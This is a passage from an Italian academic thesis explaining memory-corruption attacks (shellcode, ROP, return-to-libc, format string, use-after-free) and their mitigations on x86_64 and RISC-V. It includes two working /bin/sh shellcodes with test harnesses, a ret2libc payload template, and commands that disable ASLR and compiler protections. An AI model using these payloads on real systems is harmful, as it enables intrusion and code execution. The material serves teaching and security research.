    
\includegraphics[width=1\linewidth]{images/heap-buffer-overflow.png}
    \caption{Heap Overflow}
    \label{fig:heap}
\end{figure}
\FloatBarrier
\vspace{1cm}

\subsection*{Shellcoding}
\addcontentsline{toc}{subsection}{Shellcoding}

Una delle tecniche usate dagli attaccanti per eseguire codice arbitrario in seguito ad un buffer overflow del programma, è infatti l'utilizzo di shellcoding. In questo modo è possibile iniettare comandi assembly che verranno inseriti nello stack perché inseriti nel buffer ed eseguiti.\\
Dato che i buffer come abbiamo visto hanno dimensioni limitate, minore è la grandezza dello shellcode, più è probabile che sia efficace per il codice che l'attaccante sta cercando di manomettere. \\
Uno shellcode dipende strettamente dall'architettura che viene attaccata e quindi l'attaccante deve codificarne uno per le sue esigenze e che rispetti il codice assembly dipendente dall'ISA per cui è compilato il programma. Un' altra caratteristica restrittiva nella scrittura degli shellcode è che non devono esserci dei caratteri nulli all'interno del payload perché vengono ignorati durante l'injection.
\newline
Di seguito è presente uno shellcode di 27 bytes per architettura x86\_64 Intel che esegue \textit{/bin/sh} e quindi restituisce una shell interattiva all'attaccante.
\begin{minted}{c}
#include <stdio.h>
#include <string.h>

char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97"
"\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

\end{minted}
Invece ecco un esempio di shellcode per RISC-V64 usato per fare la stessa operazione e ottenere una shell interattiva tramite la stessa funzione \textit{execve(``/bin/sh")} \cite{ShellStormRISCV}

\begin{minted}{c}
#include <stdio.h>
#include <string.h>

char *SC = "\x01\x11\x06\xec"
           "\x22\xe8\x13\x04"
           "\x21\x02\xb7\x67"
           "\x69\x6e\x93\x87"
           "\xf7\x22\x23\x30"
           "\xf4\xfe\xb7\x77"
           "\x68\x10\x33\x48"
           "\x08\x01\x05\x08"
           "\x72\x08\xb3\x87"
           "\x07\x41\x93\x87"
           "\xf7\x32\x23\x32"
           "\xf4\xfe\x93\x07"
           "\x04\xfe\x01\x46"
           "\x81\x45\x3e\x85"
           "\x93\x08\xd0\x0d"
           "\x93\x06\x30\x07"
           "\x23\x0e\xd1\xee"
           "\x93\x06\xe1\xef"
           "\x67\x80\xe6\xff";

int main(void)
{
    char payload[76];

    memcpy(payload, SC, 76);

    fprintf(stdout, "Length: %d\n", strlen(SC));
    (*(void(*)()) payload) ();

return 0;
} 
\end{minted}
Lo shellcode RISC-V posto sopra è quindi utilizzato per chiamare la systemcall \textit{execve()} con l'argomento \textit{/bin/sh} nel registro \textit{a0}.\\
I due shellcode codificano istruzioni diverse in base all'architettura e sono scritti in formato esadecimale little-endian perché devono essere scritti direttamente sullo stack.\\
Usare gli shellcode è possibile però solo in condizioni di stack eseguibile. Una possibile mitigazione a questo exploit è infatti inserire protezioni nello stack a tempo di compilazione.\\
\newline
Una delle prime mitigation per proteggersi dagli shellcode è implementare nel programma compilato uno stack non eseguibile. In questo modo quello che viene messo nello stack a runtime può essere letto, scritto, ma non eseguito. Nella pratica questa mitigazione è attivata di default tramite una flag di compilazione che si chiama \textit{NX bit} \cite{appsec} che sfrutta la tecnica di \textit{Write XOR Execute (W$\oplus$X)} e permette ad un programma di avere ogni pagina dedicata al processo in esecuzione o scrivibile o eseguibile, ma mai entrambe le cose in contemporanea. In questo modo in seguito ad un buffer overflow è possibile scrivere nell'area di memoria interessata, che però non sarà eseguibile, oppure non sarà possibile scrivere mentre è eseguibile.\\
\newline
Per compilare un programma e fare dei test mantenendo lo stack eseguibile, usando GCC, è possibile specificarlo direttamente al compilatore, indipendentemente dall'architettura su cui si sta compilando.
\begin{minted}{bash}
gcc -z execstack programma.c -o programma.o
\end{minted}
Durante normale buffer overflow è quindi impossibile iniettare uno shellcode in caso lo stack abbia la mitigazione . In questo caso è comunque possibile eseguire, come si vedrà, un attacco Return Oriented.\\
Una struttura d'attacco comune è la seguente
\begin{itemize}
    \item Trovare una vulerabilità buffer overflow nel programma stack o heap based.
    \item Usare un attacco ROP per trasformare in eseguibile l'area di memoria del programma 
    \item Utilizzare e iniettare uno shellcode ``egg-hunter based" \cite{coalfire} (ovvero un piccolo pezzo di codice che esegue istruzioni arbitrarie e che è chiamato all'esigenza) o una serie di istruzioni ad un punto prefissato del codice
    \item Eseguire il payload principale
\end{itemize}
Un attaccante che riesce a trovare un buffer overflow e si trova davanti ad un'area di memoria non scrivibile, potrebbe riuscire a chiamare la funzione \textit{mprotect()} \cite{man7} con la quale riesce a manipolare la protezione sull'area di memoria, come può essere lo stack, in quel momento. Le flag da passare a mprotect() sono \textit{PROT\_WRITE} e \textit{PROT\_EXEC} che rendono la memoria rispettivamente scrivibile ed eseguibile.
\subsection*{Return Oriented Programming}
\addcontentsline{toc}{section}{Return Oriented Programming}
Gli attacchi basati su ROP (Return Oriented Programming) sono una categoria di attacchi molto efficaci, che permettono di fare il bypass di alcune mitigazioni introdotte nei sistemi operativi per limitare gli shellcode \cite{TeamFormationShellcoding} e la code injection.\\
\newline
Questo tipo di attacco è una tecnica avanzata che serve per vanificare la protezione alla memoria fornita da meccanismi come NX bit o  Data Execution Prevention \cite{MicrosoftDEP}. L'attaccante in questo scenario deve riuscire a mettere insieme pezzi di codice sparsi per lo stack, che finiscono con un \textit{return} (istruzione ret) e che vengono chiamati ``gadget".\\
Concatenando questo tipo di istruzioni è possibile creare in maniera meno efficiente del codice arbitrario, a patto che sia possibile trovare un numbero abbastanza grande di istruzioni adatte a fare l'operazione che serve all'attaccante. La serie che viene creata è detta ``ropchain". La figura \ref{ref:ropx86} è un esempio di rop chaining su architettura x86\_64.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/rop-stack.png}
    \caption{ROP Attack}
    \label{ref:ropx86}
\end{figure}
\FloatBarrier
\vspace{1cm}
Avendo un programma ``abbastanza grande", ovvero con un alto numero di istruzioni e di conseguenza di dimensioni notevoli (ad esempio maggiori 500MB) è possibile avere un linguaggio di programmazione \textit{Turing Completo} solamente concatenando i gadget tramite Return Oriented Programming \cite{researchgateROP}. \\
Per trovare i gadget contenuti in un programma è possibile fare il dump di codice assembly direttamente dall'artefatto compilato, oppure si possono utilizzare dei tool come \textit{ROPGadget} \cite{GithubROP} o \textit{ropper} \cite{GithubRopper} che estraggono, dati dei filtri, i gadget di interesse. Di particolare interesse è il primo tool, dato che supporta architettura RISC-V e permette di estrarre gadget da compilati di questo formato. \\
I gadget che vengono trovati, indipendentemente dall'architettura, terminano con una istruzione di salto, che sia una \textit{jump and link}, una \textit{jump} o una banale \textit{return}. I gadget di particolare interesse sono quelli in cui vengono manipolati i registri chiave dell'architettura, come possono essere i registri argomento su RISC-V (a0-a7) o i registri che gestiscono i salti, come il registro EIP su x86\_64 che permetterebbe di ``navigare" nel programma in cerca di altri gadget da concatenare. In figura \ref{ref:gadgetx86} è presentato un dump di gadget trovati tramite ROPGadget su architettura x86\_64.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.8\linewidth]{images/x86gadgets.png}
    \caption{Gadgets trovati con ROPGadget}
    \label{ref:gadgetx86}
\end{figure}
\FloatBarrier
\vspace{1cm}
Si può notare come le istruzioni siano sempre terminate da una istruzione \textit{ret}, \textit{jump} o \textit{call} che permettono quindi di saltare al prossimo gadget. In questo caso il filtro è stato posto sui registri \textit{eax}, \textit{ebp}, \textit{ecx} ed \textit{edi}.\\
\newline
Gli attacchi ROP interrompono totalmente il normale flusso del programma, potendo eseguire istruzioni concatenate e chiamare il codice direttamente da località esterne, come ad esempio dalla \textit{libc}. In aggiunta, una volta che l'attaccante ha eseguito le istruzioni di suo interesse, non ha particolare motivazione nel far finire correttamente il programma che terminerà la sua esecuzione con codici di errore. \\
\newline
Nell'ambito difensivo è possibile trovare dei controllori di flusso (Control Flow Integrity) che si occupano di capire se il programma sta eseguendo o meno le istruzioni per il quale è stato codificato. 
\subsection*{Return-to-Libc}
\addcontentsline{toc}{subsection}{Return-to-Libc}

L'attacco \textit{Return-to-Libc} è un exploit basato su buffer overflow e che sfrutta tecniche return oriented programming, molto utilizzato negli scenari in cui è possibile trovare l'overflow del programma, è possibile localizzare la libc in memoria e lo stack del programma è protetto da NX bit. \\
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.4\linewidth]{images/ret2libc.png}
    \caption{Ret2LibC}
\end{figure}
\FloatBarrier
\vspace{1cm}
La logica dell'attacco è trovare un overflow, l'indirizzo della libc in memoria e successivamente l'indirizzo della funzione \textit{system()}. La funzione \textit{system()} può eseguire comandi facendo una \textit{fork()}. Quello che viene passato come argomento nella funzione è ciò che viene eseguito dal sistema. Un attaccante in cerca di una backdoor cercherà di passare come argomento della funzione la stringa \textit{/bin/sh}.\\
L'attack path è quindi la seguente
\begin{itemize}
    \item trovare l'overflow
    \item scoprire l'indirizzo di base della \textit{libc} tramite un debugger o gli \textit{shared object}
    \item inserire come argomento della funzione una stringa utile manipolando stack o registri
    \item chiamare la return
\end{itemize} 
Eventualmente l'attaccante potrebbe anche chiamare la funzione \textit{exit()} sempre contenuta nella libc e fare terminare il programma. L'indirizzo di \textit{/bin/sh} si può trovare nello stack dato che è caricato a runtime come variabile d'ambiente del sistema.\\
Un esempio di exploit usato in seguito ad un buffer overflow sfruttando la \textit{libc} è il seguente
\begin{minted}{bash}
./program `python -c 'print("A"*BUFFER_SIZE + <SYSTEM_ADDR> 
+ "<RETURN_SYSTEM_ADDR>" + "</BIN/SH_ADDR>")'`
\end{minted}
Tra architetture x86\_64 e RISC-V questo attacck ha una differenza sostanziale, ovvero la metodologia con la quale si chiama l'argomento della funzione system. Nei sistemi RISC-V, come si vedrà in seguito, gli argomenti delle funzioni passate nello stack vengono messe in appositi registri argomento, mentre in architetture classiche vengono normalmente messe nello stack tramite istruzioni \textit{push} e tolte tramite istruzioni \textit{pop}.
\subsection*{Altri attacchi}
Verranno di seguito presentati altri attacchi, ma indipendenti dal tipo dell'architettura.
\addcontentsline{toc}{section}{Altri attacchi}
\subsubsection{Format String Attack}
\addcontentsline{toc}{subsection}{Format String Attack}
L'attacco Format String \cite{OwaspFormatString} è una tipologia di exploit che sfrutta l'evaluation delle stringhe come comandi. L'applicazione interpreta quello che è stato immesso nel dato come istruzioni ed esegue flussi di codice che il programmatore non ha previsto. \\
\newline
Questa tipologia di attacco viene sfruttata di solito tramite la  comune funzione \textit{printf()} unita ai formattatori, i comuni  \%x o \%s che definiscono come il tipo di dato nello stack deve essere convertito e interpretato. L'attacco avviene nel momento in cui la funzione che stampa un dato, non sa come formattarlo perché non è definito il tipo nella firma della funzione. Un esempio di codice vulnerabile è il seguente.

\begin{minted}[escapeinside=||,mathescape=true]{c}
#include  <stdio.h> 
void main(int argc, char **argv)
{
    |\highlight{printf(argv[1]);}|
}  
\end{minted}

La funzione \textit{printf()}, infatti, non ha definito il formatter adeguato e manipolando la stringa buffer argv[1] è possibile stampare contenuto dallo stack. Di solito si usano le seguenti combinazioni

\begin{itemize}
    \item \%x Per leggere dati dallo stack
    \item \%s Per leggere stringhe
\end{itemize}

Nello specifico, per ogni each \%x inserito nel payload la funzione \textit{printf()} leggerà un numero dallo stack, convertendolo ad indirizzo e stamperà il contenuto dell'indirizzo come stringa. È facile capire che una vulnerabilità del genere permette di leggere aree di memorie a runtime che altrimenti non sarebbe possibile leggere. 


\subsubsection*{Use-After-Free}
\addcontentsline{toc}{subsection}{Use-After-Free}

La vulnerabilità Use-After-Free \cite{Kaspersky} è dovuta all'utilizzo di aree di memoria su cui precedentemente è stata usata la funzione \textit{free()} per deallocare variabili o strutture dati salvate.\\
L'utilizzo dell'area di memoria liberata è possibile perché la \textbf{free()} opera sulla memoria referenziata dal puntatore e non sul puntatore stesso.\\
I puntatori che puntano ad aree libere di memoria vengono comunemente chiamati ``dangling pointers". Avendo accesso ad un ulteriore puntatore che punta alla stessa area di memoria precedentemente allocata, un attaccante può leggere informazioni sensibili dalla memoria heap, come mostrato in figura \ref{fig:useafterfree}.\\
Questo tipo di vulnerabilità è stata sfruttata in varie occasioni, come ad esempio nella CVE-2024-5157 \cite{ChromiumCVE} che riguarda il browser open source Chromium.

\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/use-after-free.png}
    \caption{Use After Free Attack}
    \label{fig:useafterfree}
\end{figure}
\FloatBarrier
\vspace{1cm}

\subsection*{Mitigation}
\addcontentsline{toc}{section}{Mitigation}

Nel corso del tempo è stato necessario implementare le mitigation per ridurre superficie di attacco e potenza degli attacchi fermando un buffer overflow ancora prima che si propaghi nello stack. Questi rimedi coprono le spalle al programmatore nel momento in cui introduce per errore una vulnerabilità nel codice, arginando quello che potrebbe fare un attaccante.\\
\newline
Si è già introdotta una protezione come NX bit che causa uno stack W$\oplus$X, ma si è potuto constatare che sono limiti bypassabili tramite attacchi ROP più complessi.

\subsubsection*{Address space layout randomization (ALSR)}
\addcontentsline{toc}{subsection}{Address space layout randomization (ALSR)}
L'ALSR è una tecnica di difesa con la quale si introduce la randomizzazione degli indirizzi delle più importanti funzioni di libreria e aree di memoria di particolare interesse. In questo modo l'attaccante non riesce a sapere a priori gli indirizzi della \textit{libc} e non potrà fare attacchi come \textit{re2libc} o banalmente non potrà sfruttare normali funzioni di libreria tipicamente caricate ad indirizzi statici.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=0.7\linewidth]{images/alsr.jpg}
    \caption{Stack e ASLR}
\end{figure}
\FloatBarrier
\vspace{1cm}
Un attaccante che dispone di molte risorse di calcolo può utilizzare tecniche di forza bruta per cercare indovinare dove l'ALSR ha piazzato i nuovi indirizzi di \textit{libc}. La metodologia bruteforce porta però via molto tempo e non è ovviamente sempre efficace, quindi questa tecnica di difesa può considerarsi valida anche per gli attacchi più moderni. Sia per x86\_64 che per RISC-V l'ALSR fornisce le adeguate protezioni. In aggiunta, nei sistemi RISC-V è difficile trovare grande capacità di calcolo e per questo un attacco bruteforce su questi sistemi risulterbbe ancora meno efficace. Diversamente sarebbe nel caso in cui l'architettura venga emulata tramite \textit{QEMU} \cite{QemuRISCV} per RISC-V o altri virtualizzatori.
\newline
A scopo di test nei programmi vulnerabili creati per questa tesi, si è momentaneamente disabilitato l'ALSR tramite la seguente direttiva al kernel 
\begin{minted}{c}
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
\end{minted}
\subsubsection*{Canaries}
\addcontentsline{toc}{subsection}{Canaries}
Gli stack canary o canary words sono delle aree di memoria che sono poste dopo i buffer nello stack e servono per monitorare che non si ecceda il buffer e si vada in overflow.\\
In caso di overflow il canary fallisce la propria validazione e notifica l'esecuzione del programma il quale si ferma.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
    
\includegraphics[width=1\linewidth]{images/canary.png}
    \caption{Canary in azione nello stack}
\end{figure}
\FloatBarrier
\vspace{1cm}
Questo metodo è valido per evitare e controllare i buffer overflow ed è stato disabilitato nei test fatti su RISC-V per facilitare lo studio delle vulnerabilità. Anche in questo caso data una grande potenza di calcolo è possibile fare attacchi a forza bruta per cercare di bypassare i canary.
\subsubsection*{Stack-smashing protection}
\addcontentsline{toc}{subsection}{Stack-smashing protection}
La stack protection è una mitigazione che si occupa di capire se lo stack è stato manomesso o meno. \\
\newline
Di default in alcuni compilatori (ad esempio GCC) è disattivata di default, anche se in alcune distribuzioni Linux è attiva una patch per attivarla per motivi di sicurezza. Lo stack protection causa un po' di overhead in esecuzione del programma sia in performance sia in spazio fisico dato che i programmi occupano maggiore spazio su disco.\\
\newline
Nel pratico, lo stack protection utilizza i canary per fare controlli nello stack fornendosi di prologo ed epilogo delle funzioni.
\subsubsection*{Mitigazioni ROP}
\addcontentsline{toc}{subsection}{Mitigazioni ROP}
Oltre a queste mitigazioni, a causa della potenza delle ROP, sono state create protezioni ad-hoc per gli attacchi di return oriented programming che si basano su controllo dell'integrità di flusso, conosciuta come CFI. Questi algoritmi controllano che il risultato dei return del codice macchina coincidano con quelli che il programma realmente dovrebbe fare. Anche in questo caso esistono delle contro mitigazioni che verranno citate sotto brevemente.
\begin{itemize}
    \item BOP: Block Oriented Programming in cui si utilizzano istruzioni a più alto livello
    \item JOP: Jump Oriented Programming in cui si utilizzano salti indiretti invece dei return su cui viene effettuato il controllo di flusso
    \item SROP Sign Return Oriented Programming in cui viene usata una systemcall signreturn \cite{man7sigret} invece della return
    \item DOP Data Oriented Programming in cui viene manomesso il dato sullo stack senza manomettere il flusso di esecuzione e lasciando intatti i return
\end{itemize}
\subsubsection*{Secure code}
\addcontentsline{toc}{subsection}{Secure code}
Scrivere codice sicuro rimarrà sempre la mitigation più efficace per gli attacchi buffer overflow o attacchi generali alla memoria. Questo può essere evitato mettendo controlli sulle lunghezze delle stringhe, sanificando gli input e controllando l'esecuzione del programma in determinati punti.\\
L'utilizzo di alcune funzioni insicure come la \textit{strcpy()}, la \textit{gets()} o la \textit{scanf()} è altamente sconsigliato. queste funzioni sono infatti state deprecate e il programmatore che le utilizza verrà notificato dal compilatore a compile time in caso siano implementate nel codice.


\newpage
\chapter*{Capitolo 2}
\addcontentsline{toc}{chapter}{Capitolo 2}

\section*{Tecnologie Utilizzate}
\addcontentsline{toc}{section}{Tecnologie Utilizzate}
In questa sezione si discuteranno le tecnologie utilizzate durante il progetto sia dal punto di vista software che hardware per entrambe le architetture RISC-V e x86\_64.

\section*{GCC}
\addcontentsline{toc}{section}{GCC}
Gnu C Compiler (GCC) \cite{GCC} è un compilatore per vari linguaggi di programmazione inizialmente rilasciato per fornire supporto di compilazione ai sistemi il sistema operativo GNU.\\
Dopo la compilazione del programma C viene prodotto un file output con le istruzioni assembly. Due compilati di due architetture diverse avranno peso, complessità e struttura diversi.\\
\newline
È inoltre possibile compilare degli eseguibili con GCC con delle specifiche flag per attivare / disattivare delle funzionalità specifiche del compilatore. Durante l'attività di tesi è stato utilizzato al fine di produrre e comparare eseguibili per i due tipi di architettura al fine di paragonarne il codice assembly.\\
Un esempio di compilazione con tutte le flag di sicurezza disabilitate al fine di eseguire un attacco buffer overflow è il seguente
\begin{minted}{c}
gcc vuln.c -fno-stack-protector -z execstack -no-pie -Wl, norelro -o riscv_bof.out
\end{minted}
In questo caso viene disabilitato lo stack protector, il bit NX, la randomizzazione degli indirizzi e la Global Offset Table (GOT) \cite{CTF101got} viene impostata come ``read only".
\section*{GDB}
\addcontentsline{toc}{section}{GDB}
GNU Debugger (GDB) \cite{GDB} è un debugger originario del sistema operativo GNU, sviluppato da Richard Stallman e utile a eseguire debugging su codice compilato. Grazie a GDB è possibile eseguire step by step le istruzioni macchina che vengono eseguite dal calcolatore, inserire breakpoint, disassemblare funzioni e vedere lo status dei registri ad un determinato istante di esecuzione. Durante l'attività di tesi è stato utilizzato un flavour di GDB conosciuto con il nome di GEF \cite{GEF}.
\vspace{1cm}
\FloatBarrier
\begin{figure}[!htbp]
    \centering
